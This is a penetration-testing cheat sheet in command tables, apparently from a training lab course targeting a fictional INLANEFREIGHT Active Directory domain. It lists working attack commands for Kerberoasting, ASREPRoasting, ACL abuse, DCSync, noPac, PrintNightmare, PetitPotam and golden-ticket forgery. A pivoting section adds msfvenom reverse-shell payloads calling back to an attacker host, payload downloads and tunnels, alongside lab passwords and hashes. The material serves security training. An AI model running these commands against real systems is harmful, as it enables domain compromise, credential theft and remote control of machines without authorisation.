| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev` | Impacket tool used to download/request (-request-user) a TGS ticket for a specific user account (sqldev) from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs` | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (-outputfile sqldev_tgs) from a Linux-based host. |
| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force` | Attempts to crack the Kerberos (-m 13100) ticket hash (sqldev_tgs) using hashcat and a wordlist (rockyou.txt) from a Linux-based host. |
| `setspn.exe -Q */*` | Used to enumerate SPNs in a target Windows domain from a Windows-based host. |
| `Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"` | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host. |
| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a Windows-based host. |
| `mimikatz # base64 /out:true` | Mimikatz command that ensures TGS tickets are extracted in base64 format from a Windows-based host. |
| `kerberos::list /export` | Mimikatz command used to extract the TGS tickets from a Windows-based host. |
| `echo "<base64 blob>" | tr -d \\n` | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host. |
| `cat encoded_file | base64 -d > sqldev.kirbi` | Used to output a file (encoded_file) into a .kirbi file in base64 (base64 -d > sqldev.kirbi) format from a Linux-based host. |
| `python2.7 kirbi2john.py sqldev.kirbi` | Used to extract the Kerberos ticket. This also creates a file called crack_file from a Linux-based host. |
| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat` | Used to modify the crack_file for Hashcat from a Linux-based host. |
| `cat sqldev_tgs_hashcat` | Used to view the prepared hash from a Linux-based host. |
| `hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt` | Used to crack the prepared Kerberos ticket hash (sqldev_tgs_hashcat) using a wordlist (rockyou.txt) from a Linux-based host. |
| `Import-Module .\PowerView.ps1 Get-DomainUser * -spn | select samaccountname` | Uses PowerView tool to extract TGS Tickets. Performed from a Windows-based host. |
| `Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat` | PowerView tool used to download/request the TGS ticket of a specific ticket and automatically format it for Hashcat from a Windows-based host. |
| `Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation` | Exports all TGS tickets to a .CSV file (ilfreight_tgs.csv) from a Windows-based host. |
| `cat .\ilfreight_tgs.csv` | Used to view the contents of the .csv file from a Windows-based host. |
| `.\Rubeus.exe` | Used to view the options and functionality possible with the tool Rubeus. Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /stats` | Used to check the kerberoast stats (/stats) within the target Windows domain from a Windows-based host. |
| `.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap` | Used to request/download TGS tickets for accounts with the admin count set to 1 then formats the output in an easy to view & crack manner (/nowrap). Performed from a Windows-based host. |
| `.\Rubeus.exe kerberoast /user:testspn /nowrap` | Used to request/download a TGS ticket for a specific user (/user:testspn) then formats the output in an easy to view & crack manner (/nowrap). Performed from a Windows-based host. |
| `Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes` | PowerView tool used to check the msDS-SupportedEncryptionType attribute associated with a specific user account (testspn). Performed from a Windows-based host. |
| `hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt` | Used to attempt to crack the ticket hash using a wordlist (rockyou.txt) from a Linux-based host. |

## ACL Enumeration & Tactics

| Command | Description |
|---------|-------------|
| `Find-InterestingDomainAcl` | PowerView tool used to find object ACLs in the target Windows domain with modification rights set to non-built in objects from a Windows-based host. |
| `Import-Module .\PowerView.ps1 $sid = Convert-NameToSid wley` | Used to import PowerView and retrieve the SID of a specific user account (wley) from a Windows-based host. |
| `Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}` | Used to find all Windows domain objects that the user has rights over by mapping the user's SID to the SecurityIdentifier property from a Windows-based host. |
| `$guid= "00299570-246d-11d0-a768-00aa006e0529" Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * | Select Name,DisplayName,DistinguishedName,rightsGuid | ?{$_.rightsGuid -eq $guid} | fl` | Used to perform a reverse search & map to a GUID value from a Windows-based host. |
| `Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}` | Used to discover a domain object's ACL by performing a search based on GUIDs (-ResolveGUIDs) from a Windows-based host. |
| `Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt` | Used to discover a group of user accounts in a target Windows domain and add the output to a text file (ad_users.txt) from a Windows-based host. |
| `foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}` | A foreach loop used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(ad_users.txt) to the Get-ADUser cmdlet, then enumerates access rights of those users. Performed from a Windows-based host. |
| `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)` | Used to create a PSCredential Object from a Windows-based host. |
| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` | Used to create a SecureString Object from a Windows-based host. |
| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` | PowerView tool used to change the password of a specific user (damundsen) on a target Windows domain from a Windows-based host. |
| `Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members` | PowerView tool used to view the members of a target security group (Help Desk Level 1) from a Windows-based host. |
| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to add a specific user (damundsen) to a specific security group (Help Desk Level 1) in a target Windows domain from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName` | PowerView tool used to view the members of a specific security group (Help Desk Level 1) and output only the username of each member (Select MemberName) of the group from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` | PowerView tool used to create a fake Service Principal Name given a specific user (adunn) from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose` | PowerView tool used to remove the fake Service Principal Name created during the attack from a Windows-based host. |
| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to remove a specific user (damundsent) from a specific security group (Help Desk Level 1) from a Windows-based host. |
| `ConvertFrom-SddlString` | PowerShell cmdlet used to covert an SDDL string into a readable format. Performed from a Windows-based host. |

## DCSync

| Command | Description |
|---------|-------------|
| `Get-DomainUser -Identity adunn | select samaccountname,objectsid,memberof,useraccountcontrol |fl` | PowerView tool used to view the group membership of a specific user (adunn) in a target Windows domain. Performed from a Windows-based host. |
| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} | select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool Get-ObjectAcl to check a specific user's replication rights. Performed from a Windows-based host. |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool used to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (172.16.5.5) and save the extracted hashes to a file (inlanefreight_hashes). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses Mimikatz to perform a dcsync attack from a Windows-based host. |

## Privileged Access

| Command | Description |
|---------|-------------|
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool used to enumerate the Remote Desktop Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool used to enumerate the Remote Management Users group on a Windows target (-ComputerName ACADEMY-EA-MS01) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable ($password) set equal to the password (Klmcargo2) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable ($cred) set equal to the username (forend) and password ($password) of a target domain account from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred` | Uses the PowerShell cmdlet Enter-PSSession to establish a PowerShell session with a target over the network (-ComputerName ACADEMY-EA-DB01) from a Windows-based host. Authenticates using credentials made in the 2 commands shown prior ($cred & $password). |
| `evil-winrm -i 10.129.201.234 -u forend` | Used to establish a PowerShell session with a Windows target from a Linux-based host using WinRM. |
| `Import-Module .\PowerUpSQL.ps1` | Used to import the PowerUpSQL tool. |
| `Get-SQLInstanceDomain` | PowerUpSQL tool used to enumerate SQL server instances from a Windows-based host. |
| `Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'` | PowerUpSQL tool used to connect to a SQL server and query the version (-query 'Select @@version') from a Windows-based host. |
| `mssqlclient.py` | Impacket tool used to display the functionality and options provided with mssqlclient.py from a Linux-based host. |
| `mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth` | Impacket tool used to connect to a MSSQL server from a Linux-based host. |
| `SQL> help` | Used to display mssqlclient.py options once connected to a MSSQL server. |
| `SQL> enable_xp_cmdshell` | Used to enable xp_cmdshell stored procedure that allows for executing OS commands via the database from a Linux-based host. |
| `xp_cmdshell whoami /priv` | Used to enumerate rights on a system using xp_cmdshell. |

## NoPac

| Command | Description |
|---------|-------------|
| `sudo git clone https://github.com/Ridter/noPac.git` | Used to clone a noPac exploit using git. Performed from a Linux-based host. |
| `sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap` | Runs scanner.py to check if a target system is vulnerable to noPac/Sam_The_Admin from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap` | Used to exploit the noPac/Sam_The_Admin vulnerability and gain a SYSTEM shell (-shell). Performed from a Linux-based host. |
| `sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator` | Used to exploit the noPac/Sam_The_Admin vulnerability and perform a DCSync attack against the built-in Administrator account on a Domain Controller from a Linux-based host. |

## PrintNightmare

| Command | Description |
|---------|-------------|
| `git clone https://github.com/cube0x0/CVE-2021-1675.git` | Used to clone a PrintNightmare exploit using git from a Linux-based host. |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install` | Used to ensure the exploit author's (cube0x0) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host. |
| `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'` | Used to check if a Windows target has MS-PAR & MS-RPRN exposed from a Linux-based host. |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll` | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host. |
| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll` | Used to create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host. |

## PetitPotam

| Command | Description |
|---------|-------------|
| `sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController` | Impacket tool used to create an NTLM relay by specifying the web enrollment URL for the Certificate Authority host. Performed from a Linux-based host. |
| `git clone https://github.com/topotam/PetitPotam.git` | Used to clone the PetitPotam exploit using git. Performed from a Linux-based host. |
| `python3 PetitPotam.py 172.16.5.225 172.16.5.5` | Used to execute the PetitPotam exploit by specifying the IP address of the attack host (172.16.5.225) and the target Domain Controller (172.16.5.5). Performed from a Linux-based host. |
| `python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64 certificate> = dc01.ccache` | Uses gettgtpkinit.py to request a TGT ticket for the Domain Controller (dc01.ccache) from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | Impacket tool used to perform a DCSync attack and retrieve one or all of the NTLM password hashes from the target Windows domain. Performed from a Linux-based host. |
| `klist` | krb5-user command used to view the contents of the ccache file. Performed from a Linux-based host. |
| `python /opt/PKINITtools/getnthash.py -key 70f805f9c91ca91836b670447facb099b4b2b7cd5b762386b3369aa16d912275 INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$` | Used to submit TGS requests using getnthash.py from a Linux-based host. |
| `secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba` | Impacket tool used to extract hashes from NTDS.dit using a DCSync attack and a captured hash (-hashes). Performed from a Linux-based host. |
| `.\Rubeus.exe asktgt /user:ACADEMY-EA-DC01$ /<base64 certificate>=/ptt` | Uses Rubeus to request a TGT and perform a pass-the-ticket attack using the machine account (/user:ACADEMY-EA-DC01$) of a Windows target. Performed from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:inlanefreight\krbtgt` | Performs a DCSync attack using Mimikatz. Performed from a Windows-based host. |

## Miscellaneous Misconfigurations

| Command | Description |
|---------|-------------|
| `Import-Module .\SecurityAssessment.ps1` | Used to import the module SecurityAssessment.ps1. Performed from a Windows-based host. |
| `Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL` | SecurityAssessment.ps1 based tool used to enumerate a Windows target for MS-PRN Printer bug. Performed from a Windows-based host. |
| `adidnsdump -u inlanefreight\forend ldap://172.16.5.5` | Used to resolve all records in a DNS zone over LDAP from a Linux-based host. |
| `adidnsdump -u inlanefreight\forend ldap://172.16.5.5 -r` | Used to resolve unknown records in a DNS zone by performing an A query (-r) from a Linux-based host. |
| `Get-DomainUser * | Select-Object samaccountname,description` | PowerView tool used to display the description field of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol` | PowerView tool used to check for the PASSWD_NOTREQD setting of select objects (Select-Object) on a target Windows domain from a Windows-based host. |
| `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts` | Used to list the contents of a share hosted on a Windows target from the context of a currently logged on user. Performed from a Windows-based host. |

## Group Policy Enumeration & Attacks

| Command | Description |
|---------|-------------|
| `gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE` | Tool used to decrypt a captured group policy preference password from a Linux-based host. |
| `crackmapexec smb -L | grep gpp` | Locates and retrieves a group policy preference password using CrackMapExec, then filters the output using grep. Performed from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin` | Locates and retrieves any credentials stored in the SYSVOL share of a Windows target using CrackMapExec from a Linux-based host. |
| `Get-DomainGPO | select displayname` | PowerView tool used to enumerate GPO names in a target Windows domain from a Windows-based host. |
| `Get-GPO -All | Select DisplayName` | PowerShell cmdlet used to enumerate GPO names. Performed from a Windows-based host. |
| `$sid=Convert-NameToSid "Domain Users"` | Creates a variable called $sid that is set equal to the Convert-NameToSid tool and specifies the group account Domain Users. Performed from a Windows-based host. |
| `Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}` | PowerView tool that is used to check if the Domain Users (eq $sid) group has any rights over one or more GPOs. Performed from a Windows-based host. |
| `Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532` | PowerShell cmdlet used to display the name of a GPO given a GUID. Performed from a Windows-based host. |

## ASREPRoasting

| Command | Description |
|---------|-------------|
| `Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl` | PowerView based tool used to search for the DONT_REQ_PREAUTH value across in user accounts in a target Windows domain. Performed from a Windows-based host. |
| `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat` | Uses Rubeus to perform an ASREP Roasting attack and formats the output for Hashcat. Performed from a Windows-based host. |
| `hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt` | Uses Hashcat to attempt to crack the captured hash using a wordlist (rockyou.txt). Performed from a Linux-based host. |
| `kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` | Enumerates users in a target Windows domain and automatically retrieves the AS for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host. |

## Trust Relationships - Child > Parent Trusts

| Command | Description |
|---------|-------------|
| `Import-Module activedirectory` | Used to import the Active Directory module. Performed from a Windows-based host. |
| `Get-ADTrust -Filter *` | PowerShell cmdlet used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView tool used to enumerate a target Windows domain's trust relationships. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView tool used to perform a domain trust mapping from a Windows-based host. |
| `Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName` | PowerView tool used to enumerate users in a target child domain from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt` | Uses Mimikatz to obtain the KRBTGT account's NT Hash from a Windows-based host. |
| `Get-DomainSID` | PowerView tool used to get the SID for a target child domain from a Windows-based host. |
| `Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid` | PowerView tool used to obtain the Enterprise Admins group's SID from a Windows-based host. |
| `ls \\academy-ea-dc01.inlanefreight.local\c$` | Used to attempt to list the contents of the C drive on a target Domain Controller. Performed from a Windows-based host. |
| `mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt` | Uses Mimikatz to create a Golden Ticket from a Windows-based host. |
| `.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` | Uses Rubeus to create a Golden Ticket from a Windows-based host. |
| `mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm` | Uses Mimikatz to perform a DCSync attack from a Windows-based host. |
| `secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt` | Impacket tool used to perform a DCSync attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240` | Impacket tool used to perform a SID Brute forcing attack from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` | Impacket tool used to retrieve the SID of a target Windows domain from a Linux-based host. |
| `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"` | Impacket tool used to retrieve the SID of a target Windows domain and attach it to the Enterprise Admin group's RID from a Linux-based host. |
| `ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker` | Impacket tool used to create a Golden Ticket from a Linux-based host. |
| `export KRB5CCNAME=hacker.ccache` | Used to set the KRB5CCNAME Environment Variable from a Linux-based host. |
| `psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5` | Impacket tool used to establish a shell session with a target Domain Controller from a Linux-based host. |
| `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |

## Trust Relationships - Cross-Forest

| Command | Description |
|---------|-------------|
| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName` | PowerView tool used to enumerate accounts for associated SPNs from a Windows-based host. |
| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof` | PowerView tool used to enumerate the mssqlsvc account from a Windows-based host. |
| `.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses Rubeus to perform a Kerberoasting Attack against a target Windows domain (/domain:FREIGHTLOGISTICS.local) from a Windows-based host. |
| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmdlet used to remotely connect to a target Windows system from a Windows-based host. |
| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (-request) the TGS ticket of an account in a target Windows domain (-target-domain) from a Linux-based host. |
| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of BloodHound against a target Windows domain from a Linux-based host. |
| `zip -r ilfreight_bh.zip *.json` | Used to compress multiple files into 1 single .zip file to be uploaded into the BloodHound GUI. |

# Pivoting, Tunneling, and Port Forwarding

| Command | Description |
|---------|-------------|
| `ifconfig` | Linux-based command that displays all current network configurations of a system. |
| `ipconfig` | Windows-based command that displays all system network configurations. |
| `netstat -r` | Command used to display the routing table for all IPv4-based protocols. |
| `nmap -sT -p22,3306 <IPaddressofTarget>` | Nmap command used to scan a target for open ports allowing SSH or MySQL connections. |
| `ssh -L 1234:localhost:3306 Ubuntu@<IPaddressofTarget>` | SSH command used to create an SSH tunnel from a local machine on local port 1234 to a remote target using port 3306. |
| `netstat -antp | grep 1234` | Netstat option used to display network connections associated with a tunnel created. Using grep to filter based on local port 1234. |
| `nmap -v -sV -p1234 localhost` | Nmap command used to scan a host through a connection that has been made on local port 1234. |
| `ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@<IPaddressofTarget>` | SSH command that instructs the SSH client to request the SSH server forward all data via port 1234 to localhost:3306. |
| `ssh -D 9050 ubuntu@<IPaddressofTarget>` | SSH command used to perform a dynamic port forward on port 9050 and establishes an SSH tunnel with the target. This is part of setting up a SOCKS proxy. |
| `tail -4 /etc/proxychains.conf` | Linux-based command used to display the last 4 lines of /etc/proxychains.conf. Can be used to ensure socks configurations are in place. |
| `proxychains nmap -v -sn 172.16.5.1-200` | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against the hosts in the specified range 172.16.5.1-200 with increased verbosity (-v) disabling ping scan (-sn). |
| `proxychains nmap -v -Pn -sT 172.16.5.19` | Used to send traffic generated by an Nmap scan through Proxychains and a SOCKS proxy. Scan is performed against 172.16.5.19 with increased verbosity (-v), disabling ping discover (-Pn), and using TCP connect scan type (-sT). |
| `proxychains msfconsole` | Uses Proxychains to open Metasploit and send all generated network traffic through a SOCKS proxy. |
| `msf6 > search rdp_scanner` | Metasploit search that attempts to find a module called rdp_scanner. |
| `proxychains xfreerdp /v:<IPaddressofTarget> /u:victor /p:pass@123` | Used to connect to a target using RDP and a set of credentials using proxychains. This will send all traffic through a SOCKS proxy. |
| `msfvenom -p windows/x64/meterpreter/reverse_https lhost=<InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080` | Uses msfvenom to generate a Windows-based reverse HTTPS Meterpreter payload that will send a call back to the IP address specified following lhost= on local port 8080 (LPORT=8080). Payload will take the form of an executable file called backupscript.exe. |
| `msf6 > use exploit/multi/handler` | Used to select the multi-handler exploit module in Metasploit. |
| `scp backupscript.exe ubuntu@<ipAddressofTarget>:~/` | Uses secure copy protocol (scp) to transfer the file backupscript.exe to the specified host and places it in the Ubuntu user's home directory (:~/). |
| `python3 -m http.server 8123` | Uses Python3 to start a simple HTTP server listening on port 8123. Can be used to retrieve files from a host. |
| `Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"` | PowerShell command used to download a file called backupscript.exe from a webserver (172.16.5.129:8123) and then save the file to the location specified after -OutFile. |
| `ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:80 ubuntu@<ipAddressofTarget> -vN` | SSH command used to create a reverse SSH tunnel from a target to an attack host. Traffic is forwarded on port 8080 on the attack host to port 80 on the target. |
| `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost> -f elf -o backupjob LPORT=8080` | Uses msfvenom to generate a Linux-based Meterpreter reverse TCP payload that calls back to the IP specified after LHOST= on port 8080 (LPORT=8080). Payload takes the form of an executable elf file called backupjob. |
| `msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23` | Metasploit command that runs a ping sweep module against the specified network segment (RHOSTS=172.16.5.0/23). |
| `for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done` | For Loop used on a Linux-based system to discover devices in a specified network segment. |
| `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"` | For Loop used on a Windows-based system to discover devices in a specified network segment. |
| `1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}` | PowerShell one-liner used to ping addresses 1 - 254 in the specified network segment. |
| `msf6 > use auxiliary/server/socks_proxy` | Metasploit command that selects the socks_proxy auxiliary module. |
| `msf6 auxiliary(server/socks_proxy) > jobs` | Metasploit command that lists all currently running jobs. |
| `socks4 127.0.0.1 9050` | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 4 proxy is used in combination with proxychains on the specified IP address and port. |
| `Socks5 127.0.0.1 1080` | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 5 proxy is used in combination with proxychains on the specified IP address and port. |
| `msf6 > use post/multi/manage/autoroute` | Metasploit command used to select the autoroute module. |
| `meterpreter > help portfwd` | Meterpreter command used to display the features of the portfwd command. |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>` | Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target. |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123` | Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly. |
| `netstat -antp` | Used to display all (-a) active network connections with associated process IDs. -t displays only TCP connections. -n displays only numerical addresses. -p displays process IDs associated with each displayed connection. |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>` | Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on port 8081 to the port 1234 listening on the IP address of the Attack Host. |
| `meterpreter > bg` | Meterpreter-based command used to run the selected Meterpreter session in the background. Similar to background a process in Linux. |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80` | Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80. |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443` | Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443. |
| `plink -D 9050 ubuntu@<IPaddressofTarget>` | Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host. |
| `sudo apt-get install sshuttle` | Uses apt-get to install the tool sshuttle. |
